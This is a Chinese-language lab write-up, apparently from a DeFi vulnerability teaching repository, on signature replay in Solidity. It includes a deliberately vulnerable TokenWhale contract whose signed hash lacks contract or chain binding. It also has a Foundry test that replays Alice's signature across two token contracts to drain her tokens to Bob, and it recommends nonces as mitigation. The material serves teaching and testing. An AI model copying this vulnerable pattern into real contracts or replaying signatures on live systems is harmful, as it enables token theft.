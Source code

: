 # 签名重放
[SignatureReplay.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/SignatureReplay.sol)  
**名称：** 签名重放漏洞  
**描述：**  
在这种情况下，Alice签署了一项交易，允许Bob将代币从Alice 的账户转移到 Bob 的账户。  

然后，Bob在多个合约（在本例中为 TokenWhale 和 SixEyeToken 合约）上重放此签名，每次都授权将代币从Alice的账户转移到他的账户。这是可能的，因为合约使用相同的方法来签署和验证交易，但它们不共享nonce值来防止重放攻击。   

缺少针对签名重放攻击的保护，可以多次使用相同的签名来执行函数。  


**缓解建议：**   
可以通过在签名和验证过程中使用nonce（仅使用一次的数字）来防止重放攻击。  

**参考：**  
https://medium.com/cryptronics/signature-replay-vulnerabilities-in-smart-contracts-3b6f7596df57  
https://medium.com/cypher-core/replay-attack-vulnerability-in-ethereum-smart-contracts-introduced-by-transferproxy-124bf3694e25  


**TokenWhale合约：**  
```
contract TokenWhale is Test {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;
    mapping(address => uint256) nonces;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 2000;
        balanceOf[player] = 2000;
    }

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    function transferProxy(
        address _from,
        address _to,
        uint256 _value,
        uint256 _feeUgt,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) public returns (bool) {
        uint256 nonce = nonces[_from];
        emit log_named_uint("nonce", nonce);
        bytes32 h = keccak256(
            abi.encodePacked(_from, _to, _value, _feeUgt, nonce)
        );
        if (_from != ecrecover(h, _v, _r, _s)) revert();

        if (
            balanceOf[_to] + _value < balanceOf[_to] ||
            balanceOf[msg.sender] + _feeUgt < balanceOf[msg.sender]
        ) revert();
        balanceOf[_to] += _value;

        balanceOf[msg.sender] += _feeUgt;

        balanceOf[_from] -= _value + _feeUgt;
        nonces[_from] = nonce + 1;
        return true;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/SignatureReplay.sol -vvvv 
```  
// 使用代币合约演示重放攻击的函数
function testSignatureReplay() public {
    // 记录合约的当前余额。
    emit log_named_uint(
        "Balance",
        TokenWhaleContract.balanceOf(address(this))
    );

    // 根据输入数据生成唯一的哈希值
    bytes32 hash = keccak256(
        abi.encodePacked(
            address(alice),
            address(bob),
            uint256(499),
            uint256(1),
            uint256(0)
        )
    );

    // 记录哈希值
    emit log_named_bytes32("hash", hash);

    // 使用地址的私钥对哈希进行签名
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, hash);

    // 记录签名组件
    emit log_named_uint("v", v);
    emit log_named_bytes32("r", r);
    emit log_named_bytes32("s", s);

    // 从签名中恢复签名者的地址
    address alice_address = ecrecover(hash, v, r, s);

    // 记录签名者的地址
    emit log_named_address("alice_address", alice_address);

    // 通知可能的攻击
    emit log_string(
        "If attacker got the Alice's signature, the attacker can replay this signature on the others contracts with same method."
    );

    // Bob变成了恶作剧者
    vm.startPrank(bob);

    // Bob使用Alice的签名将代币从Alice的账户转移到他的账户
    TokenWhaleContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // 记录Bob的新余额
    emit log_named_uint(
        "SET token balance of Bob",
        TokenWhaleContract.balanceOf(address(bob))
    );

    // 记录攻击的下一步
    emit log_string(
        "Try to replay to another contract with same signature"
    );

    //在重放之前用另一个代币记录Bob的余额。
    emit log_named_uint(
        "Before the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob使用Alice的签名在不同的合约中转移代币
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // 记录Bob在第二份合约中的新余额
    emit log_named_uint(
        "After the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob尝试在同一个合约上重放攻击，但由于随机数检查而失败
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    //  第二次尝试后记录Bob的余额
    emit log_named_uint(
        "After the second replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );
}
```  
**红框：** 签名重放。  
![Alt text](image-19.png)
